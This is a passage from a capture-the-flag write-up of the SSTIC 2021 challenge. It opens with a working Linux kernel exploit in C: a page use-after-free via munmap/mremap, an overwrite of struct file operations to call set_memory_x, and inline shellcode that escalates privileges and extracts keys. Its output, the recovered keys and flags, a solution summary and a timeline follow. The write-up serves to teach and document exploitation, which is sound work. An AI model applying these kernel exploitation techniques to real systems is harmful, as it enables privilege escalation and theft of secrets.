    if(!pid) {
        char msg;
        read(p2c[0], &msg, 1);
        write(c2p[1], &msg, 1);
        // After sstic_del_region, we free again in order to cause the pages to be freed
        // while still accessible by the parent process.
        for(i=0; i<num_regions; i++) {
            res = munmap(vaddrs[i] + halfalloc, halfalloc);
            if(res < 0)
                printf("child munmap: %d\n", res);
        }
        /* Don't exit. This keeps the first half of the pages alive. */
        read(p2c[0], &msg, 1);
        write(c2p[1], &msg, 1);
        _exit(0);
    }

    /** Stage 4: Split each block, placing split information into the phy_region. */
    for(i=0; i<num_regions; i++) {
        res = munmap(vaddrs[i] + halfalloc, halfalloc);
        if(res < 0)
            printf("parent munmap: %d\n", res);
    }

    /** Stage 5: Trigger the bug in vm_open. This "re-splits" the phy_region because the
        split information was not cleared in the previous split.
        The resplit causes the resulting half-block to contain pages from the second half
        of the region, instead of the first half as intended. **/
    /* mremap calls copy_vma which eventually calls sstic_vm_open */
    for(i=0; i<num_regions; i++) {
        uint8_t *vaddr2 = mremap(vaddrs[i], halfalloc, halfalloc, MREMAP_MAYMOVE | MREMAP_FIXED, vaddrs[i] + halfalloc);
        if(vaddr2 == MAP_FAILED)
            printf("parent mremap: %p\n", vaddr2);
    }

    /** Stage 6. Fault in the pages from the second half of the region. We have to do this
        now, while the reference count is still positive and the page is still marked as
        being from this type of allocation.

        NOTE: this must be the first time we're faulting in this allocation; if we fault before
        the mremap, we'll lock in mappings from the wrong half of the region. **/
    for(i=0; i<num_regions; i++) {
        for(int j=0; j<halfalloc; j += (1<<12)) {
            vaddrs[i][j + halfalloc] = 0xee;
        }
    }

    /** Stage 7. Decrement reference counts. **/
    for(i=0; i<num_regions; i++) {
        sstic_del_region(fd, regions[i]);
    }

    /** Stage 8. Decrement reference counts on the second half again, freeing the pages.
        Our mmap and our faulted pages should have two references, hence why we need to
        decrement the reference count twice to achieve our free.
        The child process won't exit now, because exiting would free the first half
        of the pages, which we don't have leaked. **/
    char c;
    write(p2c[1], "!", 1);
    read(c2p[0], &c, 1);

    // Give the system a moment to clear freed pages
    printf("pause for cleanup\n");
    sleep(2);

    /** Stage 9. At this point, vaddr + 0x10000-0x18000 are free pages in the kernel.
        Allocate stuff from the kernel to go on top - we can overwrite these to win. **/
    #define NUMFDS 100
    int devfds[NUMFDS];
    int numfds;
    for(i=0; i<NUMFDS; i++) {
        int fd;
        if(i % 2 == 0) {
            fd = open("/etc/passwd", O_RDONLY);
        } else {
            fd = open("/dev/sstic", 2);
        }
        printf("%d ", fd);
        if(fd < 0)
            break;
        devfds[i] = fd;
    }
    printf("\n");
    numfds = i;

    uint64_t kernelbase = 0;
    uint64_t ssticbase = 0;
    for(i=0; i<num_regions; i++) {
        int64_t *ptr = (int64_t *)(vaddrs[i] + halfalloc);
        for(int j=0; j<(halfalloc >> 3) - 32; j++) {
            if(ptr[j+11] < 0 && ptr[j+12] < 0 && ptr[j+11] == ptr[j+12] /* list in f_pos_lock */
            && ptr[j+26] < 0 && ptr[j+27] < 0 && ptr[j+26] == ptr[j+27] /* f_ep_links */
            && ptr[j+28] < 0 && ptr[j+29] < 0 && ptr[j+28] == ptr[j+29] /* f_ep_links */
            ) {
                if((ptr[j+5] & 0xfff) == 0x780) {
                    // shmem_file_operations
                    kernelbase = ptr[j+5] - 0x1395780uL;
                } else if((ptr[j+5] & 0xfff) == 0x120) {
                    // sstic_file_operations
                    ssticbase = ptr[j+5] - 0x2120uL;
                }
            }
        }
    }
    printf("kernelbase=%lx ssticbase=%lx\n", kernelbase, ssticbase);

    int64_t *fileptr = NULL;
    int64_t filevaddr;
    int64_t backup1, backup5;
    for(i=0; i<num_regions; i++) {
        int64_t *ptr = (int64_t *)(vaddrs[i] + halfalloc);
        for(int j=0; j<(halfalloc >> 3) - 32; j += (4096 >> 3)) {
            if(ptr[j+11] < 0 && ptr[j+12] < 0 && ptr[j+11] == ptr[j+12] /* list in f_pos_lock */
            && ptr[j+26] < 0 && ptr[j+27] < 0 && ptr[j+26] == ptr[j+27] /* f_ep_links */
            && ptr[j+28] < 0 && ptr[j+29] < 0 && ptr[j+28] == ptr[j+29] /* f_ep_links */
            ) {
                if((ptr[j+5] & 0xfff) == 0x780 || (ptr[j+5] & 0xfff) == 0x120) {
                    int64_t vaddr = ptr[j+28] - (28 << 3);
                    printf("Overwriting file_operations for file %p (vaddr %lx)\n", &ptr[j], vaddr);
                    backup1 = ptr[j+1];
                    backup5 = ptr[j+5];
                    ptr[j+1] = kernelbase + 0x59ad0; // set_memory_x
                    ptr[j+5] = vaddr;
                    fileptr = &ptr[j];
                    filevaddr = vaddr;
                    break;
                }
            }
        }
        if(fileptr)
            break;
    }
    if(!fileptr) {
        printf("Bad luck - no good file pointers to overwrite.\n");
        return -1;
    }

    int filefd = -1;
    for(i=0; i<numfds; i++) {
        res = lseek64(devfds[i], 1, SEEK_SET);
        if(res == 0) {
            /* we get -1 for sstic and 1 for /etc/passwd */
            printf("file %d matches\n", devfds[i]);
            filefd = devfds[i];
            break;
        }
    }
    if(filefd == -1) {
        printf("Bad luck - no file descriptor matched?\n");
        return -1;
    }

    char buf[] = "SH\213\35O\0\0\0\277\0\0\0\0H\2135K\0\0\0H\213\266\330&\0\0H\203\306(H\215\203`\36\77\0\377\320H1\377H\215\203\240\237\b\0\377\320H\211\307H\215\203p\235\b\0\377\320H\2135\30\0\0\0H\213\266\330&\0\0H\203\306(H\211\360[\303AAAAAAAABBBBBBBB";
    char backup800[sizeof(buf)];
    memcpy(backup800, (char *)fileptr + 0x800, sizeof(buf));
    *(int64_t *)&buf[sizeof(buf)-17] = kernelbase;
    *(int64_t *)&buf[sizeof(buf)-9] = ssticbase;
    memcpy((char *)fileptr + 0x800, buf, sizeof(buf) - 1);
    fileptr[1] = filevaddr + 0x800;

    printf("triggering shellcode\n");
    long sres = lseek64(filefd, 1, SEEK_SET);
    printf("shellcode responded %lx\n", sres);

    // Restore kernel structures to allow a clean exit
    fileptr[1] = backup1;
    fileptr[5] = backup5;
    memcpy((char *)fileptr + 0x800, backup800, sizeof(buf));

    // I had to get the keys one-at-a-time, presumably due to kernel instability.
//    getkey(fd, 0xD603C7E177F13C40);
//     getkey(fd, 0xED6787E18B12543E);
    getkey(fd, 0xFBDF1AF71DD4DDDA);

    my_system("/bin/ls -la /root");

    // Allow the child process to exit
    write(p2c[1], "!", 1);
    read(c2p[0], &c, 1);
    int status = 0;
    waitpid(pid, &status, 0);
}
```

I tried to see if there was anything good in `/root` or other root-only locations, but there wasn't anything. So, instead, I just grabbed prod keys from the device, now that the debug flag is off:

```
region 0: 1000
region 1: 2000
vaddr 0: 0x7f38acb15000
vaddr 1: 0x7f38acaf5000
pause for cleanup
8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 
kernelbase=ffffffffb3200000 ssticbase=ffffffffc0234000
Overwriting file_operations for file 0x7f38acb0d000 (vaddr ffff9b9a82178000)
file 107 matches
triggering shellcode
shellcode responded 28
key for fbdf1af71dd4ddda: 97942399a2791462402630ed846d3a64
total 0
drwx------    2 root     root            40 Mar 31 19:10 .
drwxrwxrwt   10 root     root           260 Apr 20 12:52 ..
```

Here are all of the new keys:

```
ident                 perms       key
0xD603C7E177F13C40    0x3E8       db6f435ef9deed881fea7e51706fe297
0xED6787E18B12543E    0x3E8       bb24b87f4da609400b2d70490fbd18e9
0xFBDF1AF71DD4DDDA    0x0         97942399a2791462402630ed846d3a64
```

The contents of the `prod` directory (ID `0xD603C7E177F13C40`), once decrypted, are:

```json
[{"name": "914f6f6e67591ac4d03baa5110c9c5322eec7ace16f311233bfe3f674d93a2bc.enc", "real_name": "Canal_Historique.mp4", "type": "mp4", "perms": "0000000000001000", "ident": "ed6787e18b12543e"}, {"name": "a24fad5785bd82f71b184100def10e56e9b239930ad06cfe677f6a8d692e452c.enc", "real_name": "flags.txt", "type": "txt", "perms": "0000000000000000", "ident": "fbdf1af71dd4ddda"}]
```

`flags.txt` contains the flag for stage 5:

`SSTIC{bf3d071f5a8a45fabc549d54be841f8b}`

In [`stage5/decrypt.py`](files/stage5/decrypt.py), you can find the script that I used throughout the last three stages for incrementally decrypting new files as keys became available, now completed with keys for every file!

## Final Stage

Finally, we have passed all five stages, and we have decrypted every single media file. From the description at the very beginning, we are to "extract a specific video protected with the DRM solution and find an email of the form xxxxxx@challenge.sstic.org.". `Canal_Historique.mp4` sounds like that video.

When I watched the video, however, the only email address that showed up was `ldp@sstic-canalhistorique.org` - not of the right format! Sounds like I might need to do some forensics to find the flag...


I ran the file through `ffmpeg -i Canal_Historique.mp4`, and saw this:

```
  Duration: 00:01:37.40, start: 0.000000, bitrate: 447 kb/s
    Stream #0:0(und): Video: h264 (High) (avc1 / 0x31637661), yuv420p, 720x576 [SAR 1:1 DAR 5:4], 165 kb/s, 25 fps, 25 tbr, 12800 tbn, 50 tbc (default)
    Metadata:
      handler_name    : VideoHandler
    Stream #0:1(und): Audio: aac (LC) (mp4a / 0x6134706D), 48000 Hz, stereo, fltp, 128 kb/s (default)
    Metadata:
      handler_name    : SoundHandler
    Stream #0:2(und): Video: h264 (High 4:4:4 Predictive) (avc1 / 0x31637661), yuv444p, 720x576, 143 kb/s, 25 fps, 25 tbr, 12800 tbn, 50 tbc (default)
    Metadata:
      handler_name    : VideoHandler
```

There are *two* video streams! So, in my video player, I went back and selected the other video stream - and tada, a correctly-formatted email address!


The final email address is `44608171b27e7195d4cf@challenge.sstic.org`!

## Solution Summary

This summary guides you on how to use the attached scripts to solve each challenge; for details on the actual solution process, read the writeup itself. First you will need to download and install all tools and dependencies as specified in [Tools Used](#tools-used).

1. Stage 1
    1. Download the provided `usb_capture_CO.pcapng` file.
    2. `bash tshark-extract.sh` to extract out the packets in JSON format.
    3. `mkdir scsi`
    4. `python3 build-imgs.py` to construct the disk images.
    5. Mount `scsi/out-all.img` with e.g. macOS Disk Utility
    6. Copy the `challenge.7z.00*` files and extract with 7-zip
    7. Flag is in `chall/flag.jpg`
2. Stage 2
    1. `python3 makeleak.py` to set up the leaky maze file; press Ctrl+D to exit at the end.
    2. `python3 exploit.py` to exploit the server and automatically exfiltrate DRM.zip. This has a chance of failing (and printing out all `0xcc`); if it does, just try again.
        - Note: if the server has been rebooted since I did the exploit, you will have to update the `ntdll` variable at the top of the script with the correct base address; it was correct at the time of writing.
    3. Unzip `DRM.zip`.
    4. Install VLC via `apt` into a graphical Ubuntu system.
    5. Place `libchall_plugin.so` from DRM.zip into `/usr/lib/x86_64-linux-gnu/vlc/plugins/access` on the Ubuntu system.
    6. Launch VLC and navigate to the "Chall media services" option to get a flag.
3. Stage 3
    1. This stage is done mostly manually without a lot of automation.
    2. Download [`guest.so`](http://challenge2021.sstic.org:8080/api/guest.so)
    3. Open it in IDA, identify the size of the program (from the `init_array` function)
    4. Modify the `guest-dump.c` program to dump the right program length (second argument to `fwrite`), compile and run it to generate `guest.vm`
    5. In IDA, figure out what the new opcodes are for each operation and put them in `interp-disas.py`
    6. Run `interp-disas.py` to produce `interp.txt`
    7. Locate the tamper location (after the first `r[15] = prog[...]` line) and add the line `for i in range(16): r[i] ^= manip[i]`
    8. Copy the `ident` from the output of `guest-dump` (first four bytes of the output dump) into `interp-encrypt.py` and run it to get keys
    9. Put the keys in `stage5/decrypt.py` and run that to download and decrypt the media files (you can pretend that the other keys don't exist :) )
    10. Open `48e3847a2774bf900c2cda70503dab44e37b5cfe14e0367b555e246bf2e75943.bin` (`/ambiance/info.txt`) to get the flag.
4. Stage 4
    1. Run `solvepw.py` to generate `pw.bin`
    2. Compile `prog.c` using `gcc -static -s prog.c -o prog`
    3. Perform the Stage 3 exploit, but use the line `print('key+ident:', (encrypt(b'\0' * 16) + ident).hex())` instead of the file key code in `interp-encrypt.py`.
    4. Insert the `key+ident` code into `testprog.py`
    5. Run `testprog.py` to run `prog` on the server.
    6. Put the recovered keys in `stage5/decrypt.py` and run that to download and decrypt more media files
    7. Open `930e553d6a3920d05c99bc3111aaf288a94e7961b03e1914ca5bcda32ba9408c.bin` (`/admin`) to get the flag (it's one of the filenames).
5. Stage 5
    1. Compile `exploit.c` using `gcc -static -s exploit.c -o prog`
    2. Perform Stage 4 from step 3 to step 6 to run the exploit on the server.
    3. Open `a24fad5785bd82f71b184100def10e56e9b239930ad06cfe677f6a8d692e452c.bin` (`/prod/flags.txt`) to get the flag.
6. Final Stage
    1. Open `914f6f6e67591ac4d03baa5110c9c5322eec7ace16f311233bfe3f674d93a2bc.bin` (`/prod/Canal_Historique.mp4`) as an MP4 file and watch the alternate video stream to find the email address.

## Timeline

Here is an approximate timeline of the solution, reconstructed via my web browsing history, terminal logs and file timestamps. All times are local (GMT-6).

Friday April 2

- 11:17 pm: Download `usb_capture_CO.pcapng`. Open it in Wireshark and start understanding the traffic.
- 11:36 pm: Write a script to extract the `usbms` packets and a separate script to parse it.

Saturday April 3

- 12:15 am: Reconstructed disk images.
- 12:18 am: **Submit stage 1 flag.**
- 12:20 am: Unpack `A..Mazing.exe` and start reversing it in IDA
- 2:30 am: Figure out that the maze loader will accept "rank" files
- 3:30 am: Work out the possibility of leaking the heap address via a crafted "rank" file
- 5:30 am - 10:30am: Sleep
- 12:00 pm: Start working on an exploit, beginning with the heap address leak
- 12:30 pm: Decide to set up AppJailLauncher so that I can test stuff locally, struggle a bit with getting it to work
- 1:00 pm: Start writing the `makeleak.py` setup script.
- 3:30 pm: Got read-what-where working, with the limitation that I can only leak starting at an LSB of 0x01, and only for 0x70 bytes
- 4:50 pm: Rework (overengineer) leaking code to remove the limitation; leak 0x1000 bytes of the server's heap memory
- 5:00 pm: Learning about the Windows TEB and PEB
- 5:19 pm: Get leak working on my local machine; discover that my VM has the wrong version of Windows 10 because `ntdll` offsets don't line up. Curse a bit and set the system to upgrade; get some dinner while Windows Update runs.
- 6:40 pm: Update complete, leak locally again and confirm that offsets line up. Working on the "upgrade" exploit.
- 9:50 pm: Got a stable write to the stack and confirmed that ROP works (via ROP'ing to `printf` with a fixed string from the binary)
- 10:00 pm: Looking through NTDLL functions and exploring whether shellcode (via VirtualProtect) is worth doing
- 10:15 pm: Leak kernel32 for WinExec, start trying to ROP to `WinExec`. Not working: WinDbg says it's returning `PATH_NOT_FOUND`
- 10:30 pm - 11:30 pm: Take a walk.
- 11:45 pm: Continue debugging the ROP. Briefly consider trying something other than `WinExec`.

Sunday April 4

- 12:15 am: Figure out that the problem is that WinExec writes above `rsp`, which has overwritten my `C:\\Windows\\System32\\cmd.exe` string placed at the end of my ropchain. Get `cmd.exe` to work.
- 12:20 am: `cmd.exe` barely works. Switch to powershell. Much happier.
- 12:25 am: Find DRM.zip on the Desktop. Try to use `[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\\users\\challenge\\Desktop\\DRM.zip"))`, which fails for out of memory. Try several approaches to dump the flag: `format-hex`, `[System.IO.File]::ReadAllBytes("C:\\users\\challenge\\Desktop\\DRM.zip")`, etc. all of which are too slow.
- 1:00 am: Finally dump DRM.zip using an iterative Base64 encoding script. No flag inside? Keep looking around the Windows system for any other files I might have missed.
- 1:15 am: Start reversing the files from DRM.zip.
- 2:00 am: Reversing the kernel module `sstic.ko`, just trying to understand if it's important.
- 2:40 am: Discover the `/api/guest.so` endpoint from `libchall_plugin.so`; download that file and start reversing it (see Stage 3 writeup below)
- 3:00 am: Extract VM code from `/api/guest.so` and start writing the disassembler.
- 3:50 am: Have a full disassembler for the VM code in `/api/guest.so`. Still no stage 2 flag.
- 4:30 am: Decide - finally - to just get a graphical Ubuntu VM so I can install VLC and the plugin.
- 5:00 am: Install VLC via `snap` Try to figure out how to install a plugin into it.
- 5:10 am: Give up and install `VLC` via `apt` so I can just drop the plugin in `/usr/lib`.
- 5:14 am: **Submit the stage 2 flag.**
- 5:20 am: Reversing the plugin to figure out how it works.
- 5:45 am: Run VLC again to capture all the traffic. Download the encrypted media files it references.
- 6:00 am - 11:00 am: Sleep
- 11:00 am - 3:00 pm: Go out for a walk & run errands
- 3:00 pm: Start trying to understand the key server traffic from the VLC pcap.
- 3:30 pm: Disassemble the VM from the `guest.so` from the VLC traffic and discover it's different from the one I downloaded the previous night.
- 4:00 pm: Write a simple client to interact with the key server, and a simple decryption script to decrypt media files if the keys are known.
- 4:30 pm: Try to understand the white-box "AES" algorithm from the VM, to see if I can match it to any published whitebox implementations. Read up on breaking white-box AES.
- 6:00 pm: Decide to manually build a fault attack against the hardcoded perms input. Rewrite disassembler to output Python code and build a simple "interpreter" that uses `exec`.
- 6:30 pm: Experiment with tampering the code and watching the key server's decryptions.
- 6:45 pm: Find a stable "injection point" which generates single-byte errors in the decrypted perms. Build a script which flips the bytes one at a time to change `perms` to anything I want (i.e. 0).
- 7:45 pm: Start a "time challenge" to crack a new `guest.so` as quickly as I can, so that I get as much of the hour as possible to interact with the key server. This involves carrying out all the steps listed under [Acquiring More Media Keys](#acquiring-more-media-keys).
- 7:55 pm: Complete the time challenge, gaining the ability to forge messages with `perms` set to 0.
- 8:10 pm: Forge "get key" requests with all of the file `ident`s in the service. Add the dumped keys to the decrypt script.
- 8:18 pm: **Submit the stage 3 flag.**
- 8:40 pm: Find the password check program in the service binary.
- 8:45 pm: Start another "time challenge" to get another hour, since my hour has expired. 
- 8:57 pm: Complete the time challenge, so I can forge "execute code" (reqno 2) messages. Start sending various instructions to the server to observe the CPU's response.
- 9:20 pm: Send every single 4-byte chunk in the password check program one-at-a-time to the server to log the responses.
- 9:45 pm: Access expires. Start analyzing all of the data I collected about the different instructions.
- 11:30 pm: Start another "time challenge" to crack a new `guest.so` and get another hour.
- 11:41 pm: Complete the time challenge. Begin sending more opcodes to the server to see what they do: build various hypotheses about what the instructions do, and then test those hypotheses by running modified instructions.

Monday April 5

- 12:45 am: Start writing a disassembler based on the observed instructions and their behaviour.
- 1:15 am: Complete the disassembler.
- 1:30 am: Start writing the solve script to recover the full password
- 1:45 am: Start another "time challenge" to resolve a couple of unknown opcodes.
- 1:55 am: Solve script complete, password recovered.
- 2:00 am: Send the first Linux program to the server to be executed. Explore the server a bit by listing directories, etc.
- 2:30 am: Decide to dump the keys directly. Obtain the "admin" keys (perms = 0) but not the "prod" keys.
- 2:40 am: **Submit the stage 4 flag.**
- 3:00 am: Further reverse engineering of `sstic.ko`.
- 4:30 am: Identify a possible issue with `sstic_vm_split` and determine that it is triggered by `munmap`, but getting a bit tired.
- 5:00 am - 10:15 am: Sleep
- 10:30 am: Start setting up to run the kernel locally with debugging support.
- 11:20 am: One of my exploratory programs ([`stage5/poc1.c`](files/stage5/poc1.c)) causes the kernel to crash.
- 11:30 am: Use `vmlinux-to-elf` to get a symbolicated `vmlinux`, and write a `gdbinit` to automatically initiate QEMU remote debugging and load the symbol files.
- 11:45 am: Trace the `sstic_vm_*` calls one by one using GDB to figure out the chain of events leading up to the crash.
- 1:15 pm: Determine where the crash is coming from (the `memmove` in `sstic_vm_open`). Try to figure out how this can be exploitable.
- 2:20 pm: Start experimenting with `mremap` to see if I can trigger the other code branch in `sstic_vm_open`.
- 3:30 pm: Continuing to debug various combinations of `munmap` and `mremap` and their effects on the page refcounts.
- 6:30 pm: Produce a stable leak ([`stage5/poc3.c`](files/stage5/poc3.c)), in which a handful of user pages end up containing what appear to be kernel pointers, but they don't seem to be useful...
- 8:30 pm: Fix the bug - the "lower half" pages were being freed and therefore reused first; by keeping them allocated, the leaked pages will be reused first and I get the leaks I want ([`stage5/poc4.c`](files/stage5/poc4.c)).
- 9:00 pm: By opening a lot of files, we get read-write access to a bunch of `struct file` objects. Now, I'm learning about various kernel exploitation techniques to figure out how to turn this access into kernel code execution (or privilege escalation).
- 9:30 pm: Maybe I can replace the `f_ops` with `/dev/kmem` or `/dev/mem`'s `f_ops` to achieve full kernel memory read/write?
- 10:00 pm: That doesn't work because `kmem` doesn't exist and `mem` is neutered. Maybe I can use BPF?
- 11:00 pm: Still reading a lot of kernel code and various writeups/blog posts/papers to see what functions I could try and call. Feels weird - this should be easier given the amount of stuff I can read and write!
- 11:20 pm: Maybe I can flip SMEP off via a CR4 gadget? (No: `native_write_cr4` has a dynamically patched jump which prohibits SMEP from being disabled after the kernel is initialized)
- 11:50 pm: Get a snack. Suddenly realize that I could try "mprotect" to write shellcode.
- 11:55 pm: Discover `set_memory_x`. A plan forms!

Tuesday April 6

- 12:00 am: Start putting together the `set_memory_x` exploit - rewrite a file descriptor's `f_ops` to point `lseek` to `set_memory_x` to mark a page as executable.
- 12:50 am: Implementation of the exploit goes very smoothly. Start writing shellcode which will escalate privileges, and include a little extra code to flip the hardware device's debug flag off.
- 1:11 am: Start a final "time challenge" to crack a `guest.so`.
- 1:17 am: Finish cracking `guest.so`. Prepare to run the payload remotely.
- 1:19 am: After a few broken attempts, the program works and escalates privileges! `/root` on the remote server is empty. The first working program tries to use `get_key` on the device, but has a bug which only lets it leak a single key before failing.
- 1:34 am: Finish leaking all three "prod" keys, one key at a time (I didn't bother trying to fix the bug!). Download and decrypt the `prod` directory index and the resulting contents.
- 1:36 am: **Submit the stage 5 flag.**
- 1:37 am: Watch `Canal_Historique.mp4`. Email `ldp@sstic-canalhistorique.org`, thinking maybe that's the correct email.
- 1:40 am: Use `ffmpeg -i` to determine that there's a second video stream. Watch that one and see the correct email address.
- 1:44 am: **Email `44608171b27e7195d4cf@challenge.sstic.org` to complete the solve**.
- 1:48 am: Email `44608171b27e7195d4cf@challenge.sstic.org` again from a different address for paranoia's sake.
- 1:57 am: Receive confirmation of the solve!


## Conclusion

Wow, what a crazy challenge. I learned a lot over a weekend - Windows pwn, whitebox crypto, Linux kernel exploitation, and got some serious practice implementing all of these techniques. Most of all, I got to enjoy the sheer scale of this well-crafted and very fun challenge. I would like to sincerely thank the challenge authors for putting on such a great show, and I really hope that future SSTIC challenges can be available in English too :)
